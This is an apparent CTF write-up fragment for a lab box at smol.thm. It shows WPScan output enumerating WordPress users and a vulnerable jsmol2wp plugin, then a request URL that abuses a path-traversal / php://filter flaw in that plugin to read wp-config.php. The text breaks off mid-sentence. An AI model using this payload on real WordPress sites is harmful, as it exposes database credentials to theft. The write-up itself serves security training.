 [+] think
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wp
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] gege
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] diego
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] xavi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Sep 16 12:21:40 2025
[+] Requests Done: 554
[+] Cached Requests: 12
[+] Data Sent: 149.475 KB
[+] Data Received: 18.852 MB
[+] Memory used: 197.562 MB
[+] Elapsed time: 00:00:07

wpscan  --url http://www.smol.thm --enumerate vp
**get vulneable plugin **
[+] jsmol2wp
| Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
use 
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
to get 
